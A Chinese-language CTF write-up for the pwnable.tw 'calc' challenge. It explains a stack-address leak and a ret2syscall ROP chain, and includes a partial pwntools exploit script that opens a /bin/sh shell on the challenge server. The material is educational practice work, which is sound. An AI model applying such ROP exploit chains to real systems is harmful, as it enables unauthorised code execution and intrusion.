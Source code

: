 我是第一次使用ROP，感觉太好用了，教程参考这里<http://vancir.com/posts/ret2syscall%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E7%A4%BA%E4%BE%8B>。

通过ROPgadget来查找小部件，类似于`pop eax; ret`或`mov eax, esp; ret`这样的代码碎片。具体的不再赘述。
难点在于`/bin/sh\0`的地址；由于其存放在栈上，栈地址变化需要泄露出来。如何泄露栈地址？
我们能泄露保存在栈上的栈地址就是`ebp`，在`a1[360]`位置处存放的值是`main`函数的ebp。那么我们只要确定main函数的栈空间大小即可。
```
.text:08049452                 push    ebp
.text:08049453                 mov     ebp, esp
.text:08049455                 and     esp, 0FFFFFFF0h
.text:08049458                 sub     esp, 10h
```
main函数的栈空间大小计算方法是 `($ebp & 0xFFFFFFF0 -0x10)`。
我们布置好ROP代码是从`a1[361]`开始，这里是`calc`函数返回地址，`/bin/sh\0`距离`calc`的返回地址是已知的，而`calc`返回地址在main函数栈指针esp低4字节位置。所以根据相对位置推出绝对位置。

坑啊，ebp应该是无符号数，但是被当作有符号数输出，输出的是负数，需要加上0x100000000（2^9）才是无符号数的真实值。我被这个折腾了好久。

python转换int32位无符号和有符号。
```
import ctypes

def int32_to_uint32(i):
    return ctypes.c_uint32(i).value
```

# 代码

有时候运行一次会中断，再运行一次即可。

```
  from pwn import *
  
  debug=False
  if debug:
      p = process("./calc")
      #context.log_level="debug"
      #gdb.attach(p, "b*0x08049499")
  else:
      p = remote("chall.pwnable.tw","10100")
  
  p.recvuntil("=== Welcome to SECPROG calculator ===\n")
  '''
  leak main function's ebp
  '''
  payload="+360"
  p.sendline(payload)
  m_ebp =int(p.recv())
  log.success("main function's ebp is %#x"%m_ebp)
  
  esp_offset = (m_ebp+0x100000000)-((m_ebp+0x100000000) &0xFFFFFFF0-0x10)
  m_esp = m_ebp - esp_offset
  '''
  /bin/sh stores at offset 368
  '''
  bin_str_addr = m_ebp - (esp_offset-6*4)
  log.success("bin/sh is at %#x"%bin_str_addr )
  # 0x0805c34b : pop eax ; ret
  # 0x080701d0 : pop edx ; pop ecx ; pop ebx ; ret
  # 0x08049a21 : int 0x80
  rop_vars = [0x0805c34b, 0x0b, 0x080701d0, 0, 0, bin_str_addr, 0x08049a21, u32('/bin'), u32('/sh\0')]
  
  for i in range(361, 370):
      # get content
      p.sendline('+'+str(i))
```